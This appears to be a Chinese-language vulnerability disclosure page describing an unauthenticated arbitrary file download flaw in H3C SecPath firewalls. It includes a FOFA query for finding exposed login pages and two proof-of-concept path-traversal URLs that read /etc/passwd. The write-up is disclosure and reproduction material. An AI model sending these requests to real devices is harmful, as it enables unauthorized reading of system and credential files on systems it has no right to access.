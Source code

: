 # H3C SecPath 下一代防火墙  任意文件下载漏洞

## 漏洞描述

H3C SecPath 下一代防火墙  存在功能点导致任意文件下载漏洞，攻击者通过漏洞可以获取敏感信息

## 漏洞影响

> [!NOTE]
>
> H3C SecPath

## FOFA

> [!NOTE]
>
> title="Web user login"

## 漏洞复现

登录页面如下

![image-20210604115315360](http://wikioss.peiqi.tech/vuln/image-20210604115315360.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

存在漏洞点的功能有两个

![image-20210604115351314](http://wikioss.peiqi.tech/vuln/image-20210604115351314.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

点击下载抓包更改请求

![image-20210604115431531](http://wikioss.peiqi.tech/vuln/image-20210604115431531.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

并且在未身份验证的情况中，也可以请求下载敏感文件

验证POC

```
/webui/?g=sys_dia_data_check&file_name=../../etc/passwd

/webui/?
g=sys_capture_file_download&name=../../../../../../../../etc/passwd 
```

​	
